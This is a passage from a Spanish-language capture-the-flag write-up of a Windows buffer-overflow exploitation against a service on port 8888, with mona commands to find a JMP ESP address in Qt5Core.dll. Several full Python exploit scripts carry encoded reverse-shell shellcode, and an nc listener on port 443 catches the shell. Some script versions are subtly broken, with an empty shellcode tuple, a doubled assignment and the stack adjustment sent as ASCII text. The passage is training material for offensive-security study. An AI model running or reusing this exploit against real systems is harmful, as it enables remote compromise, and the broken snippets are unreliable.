\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6a\textbackslash{}xdf\textbackslash{}x91\textbackslash{}xe4\textbackslash{}x55\textbackslash{}x5b\textbackslash{}x4e\textbackslash{}xd5\textbackslash{}x58\textbackslash{}x62\textbackslash{}x03\textbackslash{}x61\textbackslash{}x7f\textbackslash{}x74\textbackslash{}xdd}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6a\textbackslash{}x3b\textbackslash{}x20\textbackslash{}xb1\textbackslash{}x3c\textbackslash{}x95\textbackslash{}x9e\textbackslash{}x77\textbackslash{}x97\textbackslash{}x57\textbackslash{}x48\textbackslash{}x2e\textbackslash{}x44\textbackslash{}x3e\textbackslash{}x1c}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xb7\textbackslash{}xa6\textbackslash{}x81\textbackslash{}x5a\textbackslash{}xb8\textbackslash{}xe2\textbackslash{}x77\textbackslash{}x82\textbackslash{}x09\textbackslash{}x5b\textbackslash{}xce\textbackslash{}xbd\textbackslash{}xa6\textbackslash{}x0b\textbackslash{}xc6}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xc6\textbackslash{}xda\textbackslash{}xab\textbackslash{}x29\textbackslash{}x1d\textbackslash{}x5f\textbackslash{}xdb\textbackslash{}x63\textbackslash{}x3f\textbackslash{}xf6\textbackslash{}x74\textbackslash{}x2a\textbackslash{}xaa\textbackslash{}x4a\textbackslash{}x19}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xcd\textbackslash{}x01\textbackslash{}x88\textbackslash{}x24\textbackslash{}x4e\textbackslash{}xa3\textbackslash{}x71\textbackslash{}xd3\textbackslash{}x4e\textbackslash{}xc6\textbackslash{}x74\textbackslash{}x9f\textbackslash{}xc8\textbackslash{}x3b\textbackslash{}x05}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xb0\textbackslash{}xbc\textbackslash{}x3b\textbackslash{}xba\textbackslash{}xb1\textbackslash{}x94}\StringTok{"}\NormalTok{)}
\NormalTok{    offset }\OperatorTok{=} \DecValTok{1052}
\NormalTok{    before_eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"A"} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{    eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"B"} \OperatorTok{*} \DecValTok{4}

\NormalTok{    payload }\OperatorTok{=}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ eip }\OperatorTok{+}\NormalTok{ shellcode}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{    s.}\ExtensionTok{connect}\NormalTok{((remoteAddress, }\DecValTok{8888}\NormalTok{))}
\NormalTok{    s.send(payload)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{"__main__"}\NormalTok{:}
\NormalTok{    executeExploit()}
\end{Highlighting}
\end{Shaded}

\hypertarget{etapa-6-asignar-el-opcode-al-eip}{%
\subsubsection*{Etapa 6: Asignar el opcode al EIP}\label{etapa-6-asignar-el-opcode-al-eip}}
\addcontentsline{toc}{subsubsection}{Etapa 6: Asignar el opcode al EIP}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Buff-jmpesp} \caption{Buf opcode}\label{fig:unnamed-chunk-43}
\end{figure}

Como dicho precedamente, no podemos meter la direccion del \textbf{ESP} directamente en el \textbf{EIP} para ejecutar el Shell code.
Aqui lo que tenemos que hacer es encontrar una direccion donde se ejecute el commando \textbf{JMPESP} para redirigirnos al Shell code.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Busqueda de modulos con mona

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{!}\ExtensionTok{mona}\NormalTok{ modules}
\end{Highlighting}
\end{Shaded}
\item
  Buscamos una dll que tenga todas las protecciones a False

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Buff-protection_false} \caption{Buf no protected modules}\label{fig:unnamed-chunk-44}
   \end{figure}
\item
  En internet buscamos el opcode \href{https://defuse.ca/online-x86-assembler.htm}{defuse.ca}

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Buff-protection_false} \caption{Buf no protected modules}\label{fig:unnamed-chunk-45}
   \end{figure}
\item
  Buscar el opcode (en este caso \texttt{ff\ e4}) en la dll.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{!}\ExtensionTok{mona}\NormalTok{ find -s }\StringTok{"\textbackslash{}xff\textbackslash{}xe4"}\NormalTok{ -m Qt5Core.dll}
\end{Highlighting}
\end{Shaded}
\item
  Seleccionar una direccion que tenga derechos de ejecucion

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Buff-execution-rights-jmpesp} \caption{Buf exec right jmpesp}\label{fig:unnamed-chunk-46}
   \end{figure}
\item
  Cambiamos el script poniendole la nueva direccion

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}

\CommentTok{# Variables globales}
\NormalTok{remoteAddress }\OperatorTok{=} \StringTok{"127.0.0.1"}

\KeywordTok{def}\NormalTok{ executeExploit():}
\NormalTok{    shellcode }\OperatorTok{=}\NormalTok{ (b}\StringTok{"}\CharTok{\textbackslash{}xba\textbackslash{}xf8\textbackslash{}x9f\textbackslash{}xaf\textbackslash{}x72\textbackslash{}xda\textbackslash{}xce\textbackslash{}xd9\textbackslash{}x74\textbackslash{}x24\textbackslash{}xf4\textbackslash{}x5d\textbackslash{}x31\textbackslash{}xc9\textbackslash{}xb1}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x52\textbackslash{}x31\textbackslash{}x55\textbackslash{}x12\textbackslash{}x83\textbackslash{}xc5\textbackslash{}x04\textbackslash{}x03\textbackslash{}xad\textbackslash{}x91\textbackslash{}x4d\textbackslash{}x87\textbackslash{}xb1\textbackslash{}x46\textbackslash{}x13}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x68\textbackslash{}x49\textbackslash{}x97\textbackslash{}x74\textbackslash{}xe0\textbackslash{}xac\textbackslash{}xa6\textbackslash{}xb4\textbackslash{}x96\textbackslash{}xa5\textbackslash{}x99\textbackslash{}x04\textbackslash{}xdc\textbackslash{}xeb\textbackslash{}x15}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xee\textbackslash{}xb0\textbackslash{}x1f\textbackslash{}xad\textbackslash{}x82\textbackslash{}x1c\textbackslash{}x10\textbackslash{}x06\textbackslash{}x28\textbackslash{}x7b\textbackslash{}x1f\textbackslash{}x97\textbackslash{}x01\textbackslash{}xbf\textbackslash{}x3e}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x1b\textbackslash{}x58\textbackslash{}xec\textbackslash{}xe0\textbackslash{}x22\textbackslash{}x93\textbackslash{}xe1\textbackslash{}xe1\textbackslash{}x63\textbackslash{}xce\textbackslash{}x08\textbackslash{}xb3\textbackslash{}x3c\textbackslash{}x84\textbackslash{}xbf}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x23\textbackslash{}x48\textbackslash{}xd0\textbackslash{}x03\textbackslash{}xc8\textbackslash{}x02\textbackslash{}xf4\textbackslash{}x03\textbackslash{}x2d\textbackslash{}xd2\textbackslash{}xf7\textbackslash{}x22\textbackslash{}xe0\textbackslash{}x68\textbackslash{}xae}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xe4\textbackslash{}x03\textbackslash{}xbc\textbackslash{}xda\textbackslash{}xac\textbackslash{}x1b\textbackslash{}xa1\textbackslash{}xe7\textbackslash{}x67\textbackslash{}x90\textbackslash{}x11\textbackslash{}x93\textbackslash{}x79\textbackslash{}x70\textbackslash{}x68}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x5c\textbackslash{}xd5\textbackslash{}xbd\textbackslash{}x44\textbackslash{}xaf\textbackslash{}x27\textbackslash{}xfa\textbackslash{}x63\textbackslash{}x50\textbackslash{}x52\textbackslash{}xf2\textbackslash{}x97\textbackslash{}xed\textbackslash{}x65\textbackslash{}xc1}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xea\textbackslash{}x29\textbackslash{}xe3\textbackslash{}xd1\textbackslash{}x4d\textbackslash{}xb9\textbackslash{}x53\textbackslash{}x3d\textbackslash{}x6f\textbackslash{}x6e\textbackslash{}x05\textbackslash{}xb6\textbackslash{}x63\textbackslash{}xdb\textbackslash{}x41}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x90\textbackslash{}x67\textbackslash{}xda\textbackslash{}x86\textbackslash{}xab\textbackslash{}x9c\textbackslash{}x57\textbackslash{}x29\textbackslash{}x7b\textbackslash{}x15\textbackslash{}x23\textbackslash{}x0e\textbackslash{}x5f\textbackslash{}x7d\textbackslash{}xf7}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x2f\textbackslash{}xc6\textbackslash{}xdb\textbackslash{}x56\textbackslash{}x4f\textbackslash{}x18\textbackslash{}x84\textbackslash{}x07\textbackslash{}xf5\textbackslash{}x53\textbackslash{}x29\textbackslash{}x53\textbackslash{}x84\textbackslash{}x3e\textbackslash{}x26}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x90\textbackslash{}xa5\textbackslash{}xc0\textbackslash{}xb6\textbackslash{}xbe\textbackslash{}xbe\textbackslash{}xb3\textbackslash{}x84\textbackslash{}x61\textbackslash{}x15\textbackslash{}x5b\textbackslash{}xa5\textbackslash{}xea\textbackslash{}xb3\textbackslash{}x9c}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xca\textbackslash{}xc0\textbackslash{}x04\textbackslash{}x32\textbackslash{}x35\textbackslash{}xeb\textbackslash{}x74\textbackslash{}x1b\textbackslash{}xf2\textbackslash{}xbf\textbackslash{}x24\textbackslash{}x33\textbackslash{}xd3\textbackslash{}xbf\textbackslash{}xae}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xc3\textbackslash{}xdc\textbackslash{}x15\textbackslash{}x60\textbackslash{}x93\textbackslash{}x72\textbackslash{}xc6\textbackslash{}xc1\textbackslash{}x43\textbackslash{}x33\textbackslash{}xb6\textbackslash{}xa9\textbackslash{}x89\textbackslash{}xbc\textbackslash{}xe9}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xca\textbackslash{}xb2\textbackslash{}x16\textbackslash{}x82\textbackslash{}x61\textbackslash{}x49\textbackslash{}xf1\textbackslash{}x6d\textbackslash{}xdd\textbackslash{}x51\textbackslash{}x11\textbackslash{}x06\textbackslash{}x1c\textbackslash{}x51\textbackslash{}x10}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6d\textbackslash{}xa9\textbackslash{}xb7\textbackslash{}x78\textbackslash{}x81\textbackslash{}xfc\textbackslash{}x60\textbackslash{}x15\textbackslash{}x38\textbackslash{}xa5\textbackslash{}xfa\textbackslash{}x84\textbackslash{}xc5\textbackslash{}x73\textbackslash{}x87}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x87\textbackslash{}x4e\textbackslash{}x70\textbackslash{}x78\textbackslash{}x49\textbackslash{}xa7\textbackslash{}xfd\textbackslash{}x6a\textbackslash{}x3e\textbackslash{}x47\textbackslash{}x48\textbackslash{}xd0\textbackslash{}xe9\textbackslash{}x58\textbackslash{}x66}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x7c\textbackslash{}x75\textbackslash{}xca\textbackslash{}xed\textbackslash{}x7c\textbackslash{}xf0\textbackslash{}xf7\textbackslash{}xb9\textbackslash{}x2b\textbackslash{}x55\textbackslash{}xc9\textbackslash{}xb3\textbackslash{}xb9\textbackslash{}x4b\textbackslash{}x70}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6a\textbackslash{}xdf\textbackslash{}x91\textbackslash{}xe4\textbackslash{}x55\textbackslash{}x5b\textbackslash{}x4e\textbackslash{}xd5\textbackslash{}x58\textbackslash{}x62\textbackslash{}x03\textbackslash{}x61\textbackslash{}x7f\textbackslash{}x74\textbackslash{}xdd}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6a\textbackslash{}x3b\textbackslash{}x20\textbackslash{}xb1\textbackslash{}x3c\textbackslash{}x95\textbackslash{}x9e\textbackslash{}x77\textbackslash{}x97\textbackslash{}x57\textbackslash{}x48\textbackslash{}x2e\textbackslash{}x44\textbackslash{}x3e\textbackslash{}x1c}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xb7\textbackslash{}xa6\textbackslash{}x81\textbackslash{}x5a\textbackslash{}xb8\textbackslash{}xe2\textbackslash{}x77\textbackslash{}x82\textbackslash{}x09\textbackslash{}x5b\textbackslash{}xce\textbackslash{}xbd\textbackslash{}xa6\textbackslash{}x0b\textbackslash{}xc6}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xc6\textbackslash{}xda\textbackslash{}xab\textbackslash{}x29\textbackslash{}x1d\textbackslash{}x5f\textbackslash{}xdb\textbackslash{}x63\textbackslash{}x3f\textbackslash{}xf6\textbackslash{}x74\textbackslash{}x2a\textbackslash{}xaa\textbackslash{}x4a\textbackslash{}x19}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xcd\textbackslash{}x01\textbackslash{}x88\textbackslash{}x24\textbackslash{}x4e\textbackslash{}xa3\textbackslash{}x71\textbackslash{}xd3\textbackslash{}x4e\textbackslash{}xc6\textbackslash{}x74\textbackslash{}x9f\textbackslash{}xc8\textbackslash{}x3b\textbackslash{}x05}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xb0\textbackslash{}xbc\textbackslash{}x3b\textbackslash{}xba\textbackslash{}xb1\textbackslash{}x94}\StringTok{"}\NormalTok{)}
\NormalTok{    offset }\OperatorTok{=} \DecValTok{1052}
\NormalTok{    before_eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"A"} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{    eip }\OperatorTok{=}\NormalTok{ pack(}\StringTok{"<I"}\NormalTok{, }\BaseNTok{0x68a98a7b}\NormalTok{)}

\NormalTok{    payload }\OperatorTok{=}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ eip }\OperatorTok{+}\NormalTok{ shellcode}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{    s.}\ExtensionTok{connect}\NormalTok{((remoteAddress, }\DecValTok{8888}\NormalTok{))}
\NormalTok{    s.send(payload)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{"__main__"}\NormalTok{:}
\NormalTok{    executeExploit()}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui hay que tener en cuenta el echo que nuestra shell code esta cifrada y que tenemos que dejar un margen para que cuando
el codigo nos salte al ESP tenga tiempo para desencryptar el codigo. Para esto tenemos dos possibilidades.

\begin{itemize}
\tightlist
\item
  Añdir al shell code unos No Operation code \textbf{NOPS}
\item
  Effectuar un desplazamiento de la pila con la instruccion \texttt{sub\ esp,\ 0x10}
\end{itemize}

Que simplemente es, en el caso de las NOPS, añadir codigo que no hace nada. Se hacen con el caracter Hexadecimal \texttt{\textbackslash{}x90}

\begin{Shaded}
\begin{Highlighting}[]
 \CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}

\CommentTok{# Variables globales}
\NormalTok{remoteAddress }\OperatorTok{=} \StringTok{"127.0.0.1"}

\KeywordTok{def}\NormalTok{ executeExploit():}
\NormalTok{    shellcode }\OperatorTok{=}\NormalTok{ ()}
\NormalTok{    offset }\OperatorTok{=} \DecValTok{1052}
\NormalTok{    before_eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"A"} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{    eip }\OperatorTok{=}\NormalTok{ pack(}\StringTok{"<I"}\NormalTok{, }\BaseNTok{0x68a98a7b}\NormalTok{)}
\NormalTok{    nops }\OperatorTok{=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x90}\StringTok{"}\OperatorTok{*}\DecValTok{16}

\NormalTok{    payload }\OperatorTok{=}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ eip }\OperatorTok{+}\NormalTok{ nops }\OperatorTok{+}\NormalTok{ shellcode}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{    s.}\ExtensionTok{connect}\NormalTok{((remoteAddress, }\DecValTok{8888}\NormalTok{))}
\NormalTok{    s.send(payload)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{"__main__"}\NormalTok{:}
\NormalTok{    executeExploit()}
\end{Highlighting}
\end{Shaded}

o en el caso del desplazamiento de la pila

\begin{Shaded}
\begin{Highlighting}[]
 \CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}

\CommentTok{# Variables globales}
\NormalTok{remoteAddress }\OperatorTok{=} \StringTok{"127.0.0.1"}

\KeywordTok{def}\NormalTok{ executeExploit():}
\NormalTok{    shellcode }\OperatorTok{=}\NormalTok{ (shellcode }\OperatorTok{=}\NormalTok{ (b}\StringTok{"}\CharTok{\textbackslash{}xba\textbackslash{}xf8\textbackslash{}x9f\textbackslash{}xaf\textbackslash{}x72\textbackslash{}xda\textbackslash{}xce\textbackslash{}xd9\textbackslash{}x74\textbackslash{}x24\textbackslash{}xf4\textbackslash{}x5d\textbackslash{}x31\textbackslash{}xc9\textbackslash{}xb1}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x52\textbackslash{}x31\textbackslash{}x55\textbackslash{}x12\textbackslash{}x83\textbackslash{}xc5\textbackslash{}x04\textbackslash{}x03\textbackslash{}xad\textbackslash{}x91\textbackslash{}x4d\textbackslash{}x87\textbackslash{}xb1\textbackslash{}x46\textbackslash{}x13}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x68\textbackslash{}x49\textbackslash{}x97\textbackslash{}x74\textbackslash{}xe0\textbackslash{}xac\textbackslash{}xa6\textbackslash{}xb4\textbackslash{}x96\textbackslash{}xa5\textbackslash{}x99\textbackslash{}x04\textbackslash{}xdc\textbackslash{}xeb\textbackslash{}x15}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xee\textbackslash{}xb0\textbackslash{}x1f\textbackslash{}xad\textbackslash{}x82\textbackslash{}x1c\textbackslash{}x10\textbackslash{}x06\textbackslash{}x28\textbackslash{}x7b\textbackslash{}x1f\textbackslash{}x97\textbackslash{}x01\textbackslash{}xbf\textbackslash{}x3e}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x1b\textbackslash{}x58\textbackslash{}xec\textbackslash{}xe0\textbackslash{}x22\textbackslash{}x93\textbackslash{}xe1\textbackslash{}xe1\textbackslash{}x63\textbackslash{}xce\textbackslash{}x08\textbackslash{}xb3\textbackslash{}x3c\textbackslash{}x84\textbackslash{}xbf}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x23\textbackslash{}x48\textbackslash{}xd0\textbackslash{}x03\textbackslash{}xc8\textbackslash{}x02\textbackslash{}xf4\textbackslash{}x03\textbackslash{}x2d\textbackslash{}xd2\textbackslash{}xf7\textbackslash{}x22\textbackslash{}xe0\textbackslash{}x68\textbackslash{}xae}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xe4\textbackslash{}x03\textbackslash{}xbc\textbackslash{}xda\textbackslash{}xac\textbackslash{}x1b\textbackslash{}xa1\textbackslash{}xe7\textbackslash{}x67\textbackslash{}x90\textbackslash{}x11\textbackslash{}x93\textbackslash{}x79\textbackslash{}x70\textbackslash{}x68}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x5c\textbackslash{}xd5\textbackslash{}xbd\textbackslash{}x44\textbackslash{}xaf\textbackslash{}x27\textbackslash{}xfa\textbackslash{}x63\textbackslash{}x50\textbackslash{}x52\textbackslash{}xf2\textbackslash{}x97\textbackslash{}xed\textbackslash{}x65\textbackslash{}xc1}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xea\textbackslash{}x29\textbackslash{}xe3\textbackslash{}xd1\textbackslash{}x4d\textbackslash{}xb9\textbackslash{}x53\textbackslash{}x3d\textbackslash{}x6f\textbackslash{}x6e\textbackslash{}x05\textbackslash{}xb6\textbackslash{}x63\textbackslash{}xdb\textbackslash{}x41}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x90\textbackslash{}x67\textbackslash{}xda\textbackslash{}x86\textbackslash{}xab\textbackslash{}x9c\textbackslash{}x57\textbackslash{}x29\textbackslash{}x7b\textbackslash{}x15\textbackslash{}x23\textbackslash{}x0e\textbackslash{}x5f\textbackslash{}x7d\textbackslash{}xf7}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x2f\textbackslash{}xc6\textbackslash{}xdb\textbackslash{}x56\textbackslash{}x4f\textbackslash{}x18\textbackslash{}x84\textbackslash{}x07\textbackslash{}xf5\textbackslash{}x53\textbackslash{}x29\textbackslash{}x53\textbackslash{}x84\textbackslash{}x3e\textbackslash{}x26}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x90\textbackslash{}xa5\textbackslash{}xc0\textbackslash{}xb6\textbackslash{}xbe\textbackslash{}xbe\textbackslash{}xb3\textbackslash{}x84\textbackslash{}x61\textbackslash{}x15\textbackslash{}x5b\textbackslash{}xa5\textbackslash{}xea\textbackslash{}xb3\textbackslash{}x9c}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xca\textbackslash{}xc0\textbackslash{}x04\textbackslash{}x32\textbackslash{}x35\textbackslash{}xeb\textbackslash{}x74\textbackslash{}x1b\textbackslash{}xf2\textbackslash{}xbf\textbackslash{}x24\textbackslash{}x33\textbackslash{}xd3\textbackslash{}xbf\textbackslash{}xae}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xc3\textbackslash{}xdc\textbackslash{}x15\textbackslash{}x60\textbackslash{}x93\textbackslash{}x72\textbackslash{}xc6\textbackslash{}xc1\textbackslash{}x43\textbackslash{}x33\textbackslash{}xb6\textbackslash{}xa9\textbackslash{}x89\textbackslash{}xbc\textbackslash{}xe9}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xca\textbackslash{}xb2\textbackslash{}x16\textbackslash{}x82\textbackslash{}x61\textbackslash{}x49\textbackslash{}xf1\textbackslash{}x6d\textbackslash{}xdd\textbackslash{}x51\textbackslash{}x11\textbackslash{}x06\textbackslash{}x1c\textbackslash{}x51\textbackslash{}x10}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6d\textbackslash{}xa9\textbackslash{}xb7\textbackslash{}x78\textbackslash{}x81\textbackslash{}xfc\textbackslash{}x60\textbackslash{}x15\textbackslash{}x38\textbackslash{}xa5\textbackslash{}xfa\textbackslash{}x84\textbackslash{}xc5\textbackslash{}x73\textbackslash{}x87}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x87\textbackslash{}x4e\textbackslash{}x70\textbackslash{}x78\textbackslash{}x49\textbackslash{}xa7\textbackslash{}xfd\textbackslash{}x6a\textbackslash{}x3e\textbackslash{}x47\textbackslash{}x48\textbackslash{}xd0\textbackslash{}xe9\textbackslash{}x58\textbackslash{}x66}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x7c\textbackslash{}x75\textbackslash{}xca\textbackslash{}xed\textbackslash{}x7c\textbackslash{}xf0\textbackslash{}xf7\textbackslash{}xb9\textbackslash{}x2b\textbackslash{}x55\textbackslash{}xc9\textbackslash{}xb3\textbackslash{}xb9\textbackslash{}x4b\textbackslash{}x70}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6a\textbackslash{}xdf\textbackslash{}x91\textbackslash{}xe4\textbackslash{}x55\textbackslash{}x5b\textbackslash{}x4e\textbackslash{}xd5\textbackslash{}x58\textbackslash{}x62\textbackslash{}x03\textbackslash{}x61\textbackslash{}x7f\textbackslash{}x74\textbackslash{}xdd}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6a\textbackslash{}x3b\textbackslash{}x20\textbackslash{}xb1\textbackslash{}x3c\textbackslash{}x95\textbackslash{}x9e\textbackslash{}x77\textbackslash{}x97\textbackslash{}x57\textbackslash{}x48\textbackslash{}x2e\textbackslash{}x44\textbackslash{}x3e\textbackslash{}x1c}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xb7\textbackslash{}xa6\textbackslash{}x81\textbackslash{}x5a\textbackslash{}xb8\textbackslash{}xe2\textbackslash{}x77\textbackslash{}x82\textbackslash{}x09\textbackslash{}x5b\textbackslash{}xce\textbackslash{}xbd\textbackslash{}xa6\textbackslash{}x0b\textbackslash{}xc6}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xc6\textbackslash{}xda\textbackslash{}xab\textbackslash{}x29\textbackslash{}x1d\textbackslash{}x5f\textbackslash{}xdb\textbackslash{}x63\textbackslash{}x3f\textbackslash{}xf6\textbackslash{}x74\textbackslash{}x2a\textbackslash{}xaa\textbackslash{}x4a\textbackslash{}x19}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xcd\textbackslash{}x01\textbackslash{}x88\textbackslash{}x24\textbackslash{}x4e\textbackslash{}xa3\textbackslash{}x71\textbackslash{}xd3\textbackslash{}x4e\textbackslash{}xc6\textbackslash{}x74\textbackslash{}x9f\textbackslash{}xc8\textbackslash{}x3b\textbackslash{}x05}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xb0\textbackslash{}xbc\textbackslash{}x3b\textbackslash{}xba\textbackslash{}xb1\textbackslash{}x94}\StringTok{"}\NormalTok{))}
\NormalTok{    offset }\OperatorTok{=} \DecValTok{1052}
\NormalTok{    before_eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"A"} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{    eip }\OperatorTok{=}\NormalTok{ pack(}\StringTok{"<I"}\NormalTok{, }\BaseNTok{0x68a98a7b}\NormalTok{)}

\NormalTok{    payload }\OperatorTok{=}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ eip }\OperatorTok{+}\NormalTok{ b}\StringTok{"83ec10"} \OperatorTok{+}\NormalTok{ shellcode}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{    s.}\ExtensionTok{connect}\NormalTok{((remoteAddress, }\DecValTok{8888}\NormalTok{))}
\NormalTok{    s.send(payload)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{"__main__"}\NormalTok{:}
\NormalTok{    executeExploit()}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-3}{%
\section*{Privilege Escalation}\label{privilege-escalation-3}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-12}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-12}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\hypertarget{etapa-final-ejecucion-del-script-final}{%
\subsubsection*{Etapa final: Ejecucion del script final}\label{etapa-final-ejecucion-del-script-final}}
\addcontentsline{toc}{subsubsection}{Etapa final: Ejecucion del script final}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha en el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos el script

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit.py}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Y ya emos ganados accesso al systema como el usuario que ha lanzado el servicio.
Se puede ahora cambiar el script para que apunte a la maquina victima y ejecutar otra vez el msfvenom para que
